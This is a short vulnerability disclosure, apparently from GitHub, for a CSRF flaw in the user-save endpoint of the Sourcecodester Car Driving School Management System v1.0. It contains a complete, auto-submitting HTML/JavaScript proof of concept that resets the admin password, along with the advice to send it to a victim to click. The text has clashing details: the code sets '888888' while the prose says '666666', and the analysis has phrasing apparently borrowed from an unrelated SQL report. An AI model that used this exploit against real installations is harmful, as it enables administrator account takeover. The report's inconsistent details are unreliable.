

### CSRF vulnerability exists in Sourcecodester Online Car Driving School Management System

official website:https://www.sourcecodester.com/php/15070/car-driving-school-management-system-phpoop-free-source-code.html

version:v1.0

route：/cdsms/classes/Users.php?f=save

injection parameter:$_POST['password']

#### 1.Vulnerability analysis

As shown in the figure below, in **admin/user/index.php**, after the front-end sends the modified price data packet through the form, there is a lack of token verification mechanism, and the back-end **user.php** is directly spliced into the SQL update statement, resulting in a CSRF vulnerability. We can change client user data by constructing malicious request packets.


### 

#### 2.Vulnerability verification and exploit

The construction poc is as follows. Save it as an html file and send it to the victim to click, so that the admin's password can be modified.

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/localhost\/cdsms\/classes\/Users.php?f=save", true);
        xhr.setRequestHeader("Accept", "*\/*");
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundary9lB8DAQ89HnxVavv");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundary9lB8DAQ89HnxVavv\r\n" + 
          "Content-Disposition: form-data; name=\"id\"\r\n" + 
          "\r\n" + 
          "1\r\n" + 
          "------WebKitFormBoundary9lB8DAQ89HnxVavv\r\n" + 
          "Content-Disposition: form-data; name=\"firstname\"\r\n" + 
          "\r\n" + 
          "Adminstrator\r\n" + 
          "------WebKitFormBoundary9lB8DAQ89HnxVavv\r\n" + 
          "Content-Disposition: form-data; name=\"lastname\"\r\n" + 
          "\r\n" + 
          "Admin\r\n" + 
          "------WebKitFormBoundary9lB8DAQ89HnxVavv\r\n" + 
          "Content-Disposition: form-data; name=\"username\"\r\n" + 
          "\r\n" + 
          "admin\r\n" + 
          "------WebKitFormBoundary9lB8DAQ89HnxVavv\r\n" + 
          "Content-Disposition: form-data; name=\"password\"\r\n" + 
          "\r\n" + 
          "888888\r\n" + 
          "------WebKitFormBoundary9lB8DAQ89HnxVavv\r\n" + 
          "Content-Disposition: form-data; name=\"img\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundary9lB8DAQ89HnxVavv--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
      submitRequest();
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>

```

After clicking on the html file, the password of admin is modified to 666666.

